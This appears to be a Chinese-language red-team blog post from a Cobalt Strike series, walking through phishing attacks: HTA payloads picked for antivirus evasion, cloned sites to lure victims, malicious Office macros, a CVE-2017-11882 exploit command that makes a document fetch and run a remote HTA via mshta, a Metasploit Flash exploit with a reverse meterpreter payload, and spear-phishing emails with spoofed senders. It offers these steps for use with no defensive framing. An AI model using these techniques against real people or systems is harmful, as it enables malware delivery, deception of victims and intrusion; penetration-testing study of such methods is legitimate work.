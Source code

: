 ```yaml
---
layout:     post
title:    Cobalt Strike系列 4
subtitle:   Cobalt Strike 钓鱼
date:       2019-08-13
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - Cobalt Strike
    - 红队
---
```


# Cobalt Strike系列 4 钓鱼有关




# 简介

- Hta文件钓鱼
- Office钓鱼
- 联动其他平台钓鱼
- 邮件 鱼叉攻击

## Hta文件钓鱼
Hta是Html Application的缩写，直接将Html保存为Hta格式，当成一个独立的应用。  
生成方式 Attack>Packages>HTML Application  
![hta](/img/hta.png)  
CS提供了3种生成方式 exe,powershell,vba。其中vba方法需要目标系统上有Microsoft Office，在系统支持的情况下我们一般选择powershell，因为这种方式更加容易免杀。  
![hta2](/img/hta2.png)  
选择powershell生成。  
![hta3](/img/hta3.png)  
利用的话，我们这里选择使用host file联动。开启前注意端口开放。  
![hostfile](/img/hostfile.png)  
![hostfile1](/img/hostfile1.png)  
然后就是诱导受害者打开链接，并且运行了，这里就不做演示了。成功点击后会生成一个beacon。  
实际中这种方式更多是配合网站克隆使用的。  
### 网站克隆
Attack>Web Drive-by>Clone Site
![clonesite](/img/clonesite.png)  
![clonesite1](/img/clonesite1.png)  
给我们提供了便利选项，直接点attack后面的按钮，可以选择之前生成的hta服务。  
![clonesite2](/img/clonesite2.png)  
如何诱导就看自己的了，裸ip别想了，除非是傻子，由于条件有限，没有整域名。



## Office 钓鱼
常见的office钓鱼就是宏，office漏洞以及DDE模块。这里就讲一下文档内嵌恶意宏。这是在APT活动中最常见的手法。  
Attack>Packages>MS Office Macro  
![marco](/img/marco.png)  
然后制作文档，我这里没有office，盗个图吧。  
![marco1](/img/marco1.png)  
![marco2](/img/marco2.png)  
![marco3](/img/marco3.png)  
![marco4](/img/marco4.png)  

还有就是利用Office漏洞的，常见用CVE-2017-11882，配合hta文件。这里我给上exp的项目地址：  
[CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)  
使用的话：  
```shell
python Command_CVE-2017-11882.py -c "mshta http://ip:port/abc.hta" -o test.doc -i input.rtf //自定义内容
```

## 联动其他平台钓鱼
以msf为例，借鉴一些老的资料，这里使用一个adobe_flash_hacking_team_uaf的漏洞。  
在msf上设置好相关模块和参数。  
```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LHOST ip
LHOST => ip
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LPORT 8880
LPORT => 8880
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > exploit -j
[*] Exploit running as background job 2.

[*] Using URL: http://0.0.0.0:80/X11zRtcWP
[*] Local IP: http://ip/X11zRtcWP
[*] Server started.
```

![msfadobe](/img/msfadobe.png)  
然后再配置Cs 生成一个Listeners 端口和msf 中LPORT的端口一样,地址就是主机地址，然后我们可以直接把msf中的连接发送给目标机了，当然建议配合克隆使用。
因为环境问题，没办法复现，图就自己脑补吧。  
![msfclone](/img/msfclone.png)  
![cant](/img/cant.png)  

## 邮件 鱼叉攻击
先配置Spear Phish。  
Attack>Spear Phish  
![mail](/img/mail.png)  
因为这个自带的不是很实用，就简单说了。  
- tmplate 邮件模板 一般在邮件的更多选项中 ，选择导出，或者显示原文
- attachment 附件
- Embed URL 要嵌入的网址
- Mail server SMTP
- Bounce to 模仿发件人  
其中第一选项targets中的格式:  
```
111@qq.com	a  
222@163.com	b  
```
实际中的话是要配合各种钓鱼连接或者文件，结合上面的手段去使用。  











